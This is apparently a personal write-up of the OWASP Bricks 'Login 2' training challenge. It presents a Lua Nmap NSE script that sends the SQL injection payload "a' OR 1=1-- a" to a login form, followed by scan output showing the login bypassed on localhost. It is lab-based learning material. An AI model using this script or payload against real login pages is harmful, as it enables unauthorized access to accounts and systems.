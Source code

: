 ```yaml
---
date: '2024-12-03T16:23:33+08:00'
title: 'Bricks Login 2'
tags:
    - OWASP-Bricks
    - NSE
---
```


## Challenge Information

- [OWASP Bricks](https://sechow.com/bricks/)
- Docker version: [here](https://hub.docker.com/r/gjuniioor/owasp-bricks)


> This is a series where I will write my own Nmap NSE script to solve that challenge. This is actually a task given by [masta ghimau](https://www.youtube.com/@mastaghimau) during [MCC 2023](https://cybercamp.my/mcc2023-the-journey-begins/).

## Challenge Solution

Login level 2 is just a simple SQL injection which javascript validation. Since we are using Nmap NSE to perform SQL injection, it will ignore javascript as it is front end validation. We can use the same NSE script as previous challenge.

```lua
local http = require "http"
local shortport = require "shortport"

portrule = shortport.http

action = function(host,port)
  local resp,final,query
  r={}
  r['username']="a' OR 1=1-- a"
  r['passwd']="test"
  r['submit']="Submit"
  resp = http.post(host,port,"/login-2/index.php",nil,nil,r)


  final = string.match(resp.body, '<p>.*alert%-box.->(.-)<a.*</p>')
  query = string.match(resp.body, ".*SQL Query(.*)<a.*</div>")

  return {payload = r ,SQLQuery = query , result = final}
end
```

This code is built based on `http-title.nse`.

```bash
nmap -p 80 --script=chall2.nse 127.0.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-28 19:52 +08
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00013s latency).

PORT   STATE SERVICE
80/tcp open  http
| chall1:
|   payload:
|     submit: Submit
|     passwd: test
|     username: a' OR 1=1-- a
|   SQLQuery: : SELECT * FROM users WHERE name='a' OR 1=1-- a' and password='test'
|_  result: Succesfully logged in.

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds
```

## Things I learned from the challenge

- Writing custom NSE script